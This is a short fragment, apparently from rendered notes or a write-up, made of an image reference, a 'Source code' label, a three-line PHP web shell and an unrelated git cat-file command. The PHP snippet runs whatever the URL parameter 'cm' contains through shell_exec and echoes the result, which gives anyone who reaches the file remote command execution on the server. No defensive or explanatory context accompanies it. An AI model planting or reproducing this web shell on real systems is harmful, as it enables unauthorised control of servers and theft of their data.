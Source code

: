```
<?php
$output = shell_exec($_GET['cm']);
echo "<pre>$output</pre>"
?>
```
- git cat-file (-t|p) $(cat master)
